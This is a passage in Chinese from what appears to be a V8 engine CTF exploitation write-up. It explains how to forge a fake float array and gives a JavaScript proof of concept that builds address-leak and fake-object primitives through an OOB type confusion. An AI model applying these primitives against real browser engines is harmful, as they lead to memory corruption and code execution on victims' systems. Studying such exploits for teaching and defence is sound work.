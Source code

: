 ### 利用漏洞 - 获得地址与伪造对象的能力

这样一来，我们就可以开始考虑构造任意地址写了，思路如下：

- 首先，在 JavaScript 中浮点数在内存中是直接存储的，因此伪造 `float_array` 是比较合适的；
- 目标是通过在 `evil_float_array` 这个对象的 `elements` 的基础上使用 `get_obj()` 函数构建假的`float_array`；
- 如此一来，当访问到 `fake_array[0]` 的时候，实际上会根据其 map 设定的访问规则，最终访问到 `target_addr+10` 也是 `evil_float_array[2]` 的位置上。

因此就可以构造出如下 poc：

```javascript
let helper = new Helpers();

console.log("STEP 0 - Leak maps with oob access.");

let obj = {};
let obj_list = [obj];
let float_list = [4.3];

// %DebugPrint(obj_list);
// %DebugPrint(float_list);

let obj_list_map = obj_list.oob();
let float_list_map = float_list.oob();

// %SystemBreak();

console.log("STEP 1 - Type confusion.");

function get_addr(victim) {
  obj_list[0] = victim;
  obj_list.oob(float_list_map);
  let res = helper.f64toi64(obj_list[0]) - 1n;
  obj_list.oob(obj_list_map);
  return res;
}

function get_obj(addr) {
  float_list[0] = helper.i64tof64(addr | 1n);
  float_list.oob(obj_list_map);
  let res = float_list[0];
  float_list.oob(float_list_map);
  return res;
}

let evil_float_array = [
  float_list_map,
  helper.i64tof64(0n),
  helper.i64tof64(0xdeadbeefn),
  helper.i64tof64((0x80n << 32n) | 0n),
  helper.i64tof64(0xdeadcafen),
  helper.i64tof64(0x31337n),
];

let fake_array_addr = get_addr(evil_float_array);
let fake_elements_addr = fake_array_addr + 0x30n;
let fake_obj = get_obj(fake_elements_addr);
console.log(fake_obj.length);

// %DebugPrint(evil_float_array);
// %DebugPrint(fake_obj);
// %SystemBreak();
```
